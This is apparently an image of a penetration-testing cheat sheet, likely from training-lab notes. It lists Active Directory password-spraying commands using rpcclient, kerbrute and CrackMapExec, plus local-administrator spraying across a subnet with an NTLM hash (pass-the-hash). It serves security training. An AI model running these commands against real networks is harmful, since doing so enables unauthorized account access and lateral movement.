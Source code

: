 ### rpcclient - Password Spraying
```bash
for u in $(cat valid_users.txt); do 
    rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; 
done
```

### Kerbrute - Kerberos Password Spraying
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
```

### CrackMapExec (CME) - SMB Password Spraying
```bash
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

### Local Administrator Password Reuse

### CrackMapExec - Local Admin Spraying
```bash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

